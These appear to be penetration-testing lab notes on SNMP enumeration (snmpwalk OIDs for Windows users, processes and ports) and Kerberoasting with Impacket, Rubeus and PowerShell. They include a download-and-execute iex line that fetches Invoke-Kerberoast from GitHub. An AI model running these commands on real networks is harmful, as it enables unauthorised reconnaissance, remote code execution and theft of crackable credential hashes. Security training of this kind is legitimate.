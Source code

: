 `onesixtyone -c common-snmp-community-strings-onesixtyone.txt <TARGET>` If we have a list of targets wecan use -i option to pass alist of ips.

!\[\[Pasted image 20220811181152.png]] Openview is the community string

_SNMP Check:_

Enumerate SNMP Syntax: `snmp-check <ip>`

_SNMP-WALK:_

We can probe and query SNMP values using a tool such as snmpwalk provided we at least know the SNMP read-only community string, which in most cases is “public”

* \-c is a comunnity string
* \-v1 specifies version number, change it accordingly
* \-t specifies target.

> Enumerating entire mib tree:

`snmpwalk -c public -v1 -t 10 10.11.1.14`

> Enumerating Windows Users

`snmpwalk -c public -v1 <ip> 1.3.6.1.4.1.77.1.2.25`

> Enumerating Running Windows Processes

`snmpwalk -c public -v1 <ip> 1.3.6.1.2.1.25.4.2.1.2`

> Enumerating Open TCP Ports

`snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3`

> Enumerating Installed Software

`snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2`

!\[\[Pasted image 20220811181321.png]]

***

**Kerberoasting**:

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

> With\[Impacket]:

`python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password>-outputfile <output_TGSs_file>`

> With

[Rubeus](https://github.com/GhostPack/Rubeus)

`.\Rubeus.exe kerberoast /outfile:<output\_TGSs\_file>`

> WithPowershell:

`iex (new-objectNet.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")`

`Invoke-Kerberoast -OutputFormat <TGSs\_format [hashcat | john]> | % { $\_.Hash } | Out-File -Encoding ASCII <output\_TGSs\_file>￿`
